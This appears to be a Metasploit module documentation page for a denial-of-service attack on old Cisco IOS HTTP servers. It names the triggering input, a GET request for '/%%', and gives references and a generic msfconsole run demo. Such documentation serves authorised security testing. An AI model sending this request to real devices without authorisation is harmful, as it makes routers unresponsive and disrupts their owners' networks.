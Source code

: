 ## Cisco IOS HTTP GET /%% Request Denial of Service

This module triggers a Denial of Service condition in the 
Cisco IOS HTTP server. By sending a GET request for "/%%", 
the device becomes unresponsive. IOS 11.1 -> 12.1 are 
reportedly vulnerable. This module tested successfully 
against a Cisco 1600 Router IOS v11.2(18)P.


## Module Name
auxiliary/dos/cisco/ios_http_percentpercent

## Authors
* patrick


## References
* http://www.securityfocus.com/bid/1154
* http://cvedetails.com/cve/2000-0380/
* http://www.osvdb.org/1302




## Platforms


## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use auxiliary/dos/cisco/ios_http_percentpercent
msf auxiliary(ios_http_percentpercent) > show targets
   ... a list of targets ...
msf auxiliary(ios_http_percentpercent) > set TARGET <target-id>
msf auxiliary(ios_http_percentpercent) > show options
   ... show and set options ...
msf auxiliary(ios_http_percentpercent) > run
```
    
    